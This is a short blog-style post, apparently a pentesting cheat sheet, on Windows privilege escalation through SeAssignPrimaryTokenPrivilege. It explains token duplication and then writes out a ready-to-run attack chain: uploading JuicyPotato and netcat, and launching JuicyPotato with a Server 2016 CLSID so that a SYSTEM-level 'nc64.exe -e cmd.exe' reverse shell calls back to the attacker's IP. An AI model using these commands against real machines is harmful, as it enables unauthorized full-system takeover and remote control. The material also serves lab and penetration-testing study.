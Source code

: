 ```yaml
---
layout: post
title:  "windows - pe - SeAssignPrimaryTokenPrivilege"
date:   2022-01-01
categories: windows
---
```


## Windows - Privileges Escalation - SeAssignPrimaryTokenPrivilege


### Privileges


```powershell

PS C:\Users\user\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeAssignPrimaryTokenPrivilege Replace a process level token  Enabled
...

```

### Explain

SeAssignPrimaryTokenPrivilege is very similar to **SeImpersonatePrivilege**, it will use the **same method** to get a privileged token. Then, this privilege allows **to assign a primary token** to a new/suspended process. With the privileged impersonation token you can derivate a primary token (DuplicateTokenEx). With the token, you can create a **new process** with 'CreateProcessAsUser' or create a process suspended and **set the token** (in general, you cannot modify the primary token of a running process).


### Juicy Potato & Netcat

```powershell

PS C:\Users\user\Documents> upload /home/kali/privesc/JuicyPotato.exe

PS C:\Users\user\Documents> upload /home/kali/privesc/netcat/nc64.exe

PS C:\Users\user\Documents> .\JuicyPotato.exe -t * -p c:\windows\system32\cmd.exe -a "/c c:\users\user\documents\nc64.exe -e cmd.exe my_ip 7777" -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"

```

### CLSID

```text

For Windows Server 2016 Standard we will use the CLSID for winmgmt LocalService {8BC3F05E-D86B-11D0-A075-00C04FB68820} under NT AUTHORITY\SYSTEM user

````




### Resources

- https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505
- http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/

